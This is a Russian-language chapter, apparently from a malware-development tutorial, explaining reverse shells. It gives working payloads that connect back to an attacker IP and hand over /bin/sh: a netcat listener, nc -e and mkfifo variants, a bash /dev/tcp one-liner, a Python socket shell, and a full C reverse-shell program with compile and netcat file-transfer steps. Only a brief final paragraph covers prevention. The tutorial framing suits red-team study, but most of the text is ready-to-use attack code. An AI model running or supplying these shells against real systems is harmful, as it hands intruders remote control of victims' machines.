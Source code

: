 \newpage
\subsection{3. реверс шелл (обратная оболочка)}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![reverse shells](./images/4/2021-09-16_11-26.png){height=400px}    

Прежде всего, мы рассмотрим такое понятие, как обратная оболочка (reverse shell), так как это очень важный аспект в разработке вредоносного ПО.

### что такое реверс шелл (обратная оболочка)?

Обратная оболочка (reverse shell), также называемая connect-back shell, - это удаленная оболочка, создаваемая с целевого устройства путем установления соединения с машиной атакующего и запуска целевой оболочки на машине атакующего. Обычно это используется в процессе эксплуатации уязвимости для получения контроля над удаленной машиной.     

![rev shells](./images/4/shells.png)

Обратная оболочка может использовать распространенные исходящие порты, такие как `80, 443, 8080` и другие.    

Обратная оболочка обычно применяется, когда целевая машина жертвы блокирует входящее соединение по определенному порту брандмауэром. Чтобы обойти это ограничение, специалисты Red Team и пентестеры используют обратные оболочки.     

Однако здесь есть один нюанс. Это подвергает сервер управления атакующего риску обнаружения, а сетевые службы мониторинга безопасности могут зафиксировать следы атаки.    

Существует три этапа для получения обратной оболочки.    
Сначала атакующий эксплуатирует уязвимость в целевой системе или сети, которая позволяет выполнить код.    
Затем атакующий настраивает прослушиватель (listener) на своей машине.     
Далее атакующий внедряет обратную оболочку в уязвимую систему для эксплуатации уязвимости.    

Есть еще один нюанс. В реальных кибератаках обратную оболочку можно также получить через социальную инженерию. Например, вредоносное ПО, установленное на локальную рабочую станцию с помощью фишингового письма или вредоносного веб-сайта, может инициировать исходящее соединение с командным сервером и предоставить хакерам возможность обратного соединения.     

![social engineering](./images/4/shells2.png){width="80%"}

Цель этого поста - не эксплуатация уязвимости в целевом хосте или сети, но для понимания достаточно знать что основная идея там заключается в поиске уязвимости, которая может быть использована для выполнения кода.   

В зависимости от установленной на жертве системы и запущенных там сервисов, обратная оболочка может быть разной, например, `php, python, jsp` и т. д.    

***

### listener

Для простоты в этом примере жертва разрешает исходящие соединения на любом порту (по умолчанию правило брандмауэра `iptables`). В нашем случае мы используем `4444` в качестве порта прослушивания. Вы можете изменить его на любой другой порт. Прослушиватель может быть любой программой/утилитой, способной открывать TCP/UDP соединения или сокеты. В большинстве случаев я предпочитаю использовать утилиту `nc` или `netcat`.   

```bash
nc -lvp 4444
```

В этом случае параметры `-l` - слушать, `-v` - подробный вывод и `-p` - порт `4444` на всех интерфейсах. Вы также можете добавить `-n` для работы только с IP-адресами без использования DNS.    

![listener](./images/4/2021-09-11_17-59.png)    

***

### запуск обратной оболочки (примеры)

Для простоты в наших примерах целью является машина с Linux.   
**1. netcat**   
Запуск:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

Где `10.9.1.6` - это IP-адрес машины атакующего, а `4444` - прослушиваемый порт.   

![netcat](./images/4/2021-09-11_18-04.png){width="80%"}

**2. netcat без -e**    

В новых версиях Linux по умолчанию используется традиционный netcat с отключенной опцией `GAPING_SECURITY_HOLE`, что означает отсутствие опции `-e`.

В этом случае на машине жертвы выполните:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](./images/4/2021-09-11_18-23.png){width="80%"}

**3. bash**   

Не работает на старых дистрибутивах на базе Debian.   

Запуск:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](./images/4/2021-09-11_18-12.png){width="80%"}

**4. python**

Чтобы создать полуинтерактивную оболочку с помощью Python, выполните:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](./images/4/2021-09-11_18-36.png){width="80%"}

Больше примеров: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)    

***

### создание обратной оболочки на C

Моя любимая часть. Так как я пришел в кибербезопасность с бэкграундом разработчика ПО, мне нравится "изобретать велосипед", это помогает лучше понять многие концепции и иногда заглянуть "под капот" многих процессов.    

Как я писал выше, мы будем писать обратную оболочку которую запустим на Linux (целевой хост)   

Создайте файл `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

  // attacker IP address
  const char* ip = "10.9.1.6";

  // address struct
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  // socket syscall
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);

  // connect syscall
  connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
  }

  // execve syscall
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```

Скомпилируем:

```bash
gcc -o shell shell.c -w
```

![c rev shell compile](./images/4/2021-09-11_18-53.png){width="80%"}

*если вы компилируете для 32-bit linux запустите:* ```gcc -o shell -m32 shell.c -w```

Давайте перейдем к передаче файла на машину жертвы. Передача файла считается одним из самых важных шагов, включенных в постэксплуатацию (как я уже писал ранее, мы не рассматриваем шаг эксплуатации).    

Мы воспользуемся инструментом, который известен как "швейцарский нож хакера", netcat.    

на машине жертвы запустите:    
```bash
nc -lvp 4444 > shell
```

а на машине атакующего:    
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](./images/4/2021-09-11_19-09.png){width="80%"}

проверка:
```bash
./shell
```

![run](./images/4/2021-09-11_19-41.png){width="80%"}

[исходный код на Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### предотвращение

К сожалению, нет способа полностью заблокировать обратные оболочки. Если вы намеренно не используете обратные оболочки для удаленного администрирования, любые обратные соединения оболочки, скорее всего, будут считаться вредоносными. Чтобы ограничить эксплуатацию, вы можете заблокировать исходящие соединения, чтобы разрешить только определенные удаленные IP-адреса и порты для требуемых служб. Этого можно добиться путем помещения сервера в песочницу или запуска сервера в минимальном контейнере.    